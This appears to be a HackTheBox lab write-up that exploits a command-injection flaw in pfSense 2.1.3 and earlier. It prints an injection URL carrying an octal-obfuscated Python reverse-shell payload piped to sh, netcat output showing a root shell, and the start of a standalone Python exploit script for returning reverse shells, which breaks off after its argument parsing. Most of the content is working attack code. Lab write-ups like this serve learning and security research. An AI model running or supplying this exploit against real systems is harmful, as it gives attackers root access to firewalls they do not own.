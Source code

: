 `https://10.10.10.60/status_rrd_graph_img.php?database=queues;printf+%27\160\171\164\150\157\156\40\55\143\40\47\151\155\160\157\162\164\40\163\157\143\153\145\164\54\163\165\142\160\162\157\143\145\163\163\54\157\163\73\163\75\163\157\143\153\145\164\56\163\157\143\153\145\164\50\163\157\143\153\145\164\56\101\106\137\111\116\105\124\54\163\157\143\153\145\164\56\123\117\103\113\137\123\124\122\105\101\115\51\73\163\56\143\157\156\156\145\143\164\50\50\42\61\60\56\61\60\56\61\64\56\61\60\42\54\64\64\63\51\51\73\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\60\51\73\40\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\61\51\73\40\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\62\51\73\160\75\163\165\142\160\162\157\143\145\163\163\56\143\141\154\154\50\133\42\57\142\151\156\57\163\150\42\54\42\55\151\42\135\51\73\47%27|sh`


```
root@kali:~/htb/sense# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.60] 47018
sh: can't access tty; job control turned off
# id && hostname
uid=0(root) gid=0(wheel) groups=0(wheel)
pfSense.localdomain
```

And now we are root!

## Fully Scripted Exploit

I decided to try to build on the octal encoding script and fully script out the exploit. All you need to do is start a netcat listener and provide the required arguments to return a reverse shell.
I'm sure there are much better ways to do a lot of this but I'm still learning. It's also posted on Exploit-DB. Before I submitted to Exploit-DB I forgot to add some logic for when running the script without parameters so it will throw a TypeError. You can ignore that and just feed in the parameters correctly and it works fine. I've added the updated script below that will print the help instead when running the script without args.

<https://www.exploit-db.com/exploits/43560/>

```python
#!/usr/bin/env python3

import argparse
import requests
import sys
import urllib
import urllib3
import collections

'''
pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection. 
This script will return a reverse shell on specified listener address and port.
Ensure you have started a listener to catch the shell before running!
'''

parser = argparse.ArgumentParser()
parser.add_argument("--rhost", help = "Remote Host")
parser.add_argument('--lhost', help = 'Local Host listener')
parser.add_argument('--lport', help = 'Local Port listener')
parser.add_argument("--username", help = "pfsense Username")
parser.add_argument("--password", help = "pfsense Password")

if len(sys.argv[1:]) == 0:
    parser.print_help()
    parser.exit()

args = parser.parse_args()

rhost = args.rhost
lhost = args.lhost
```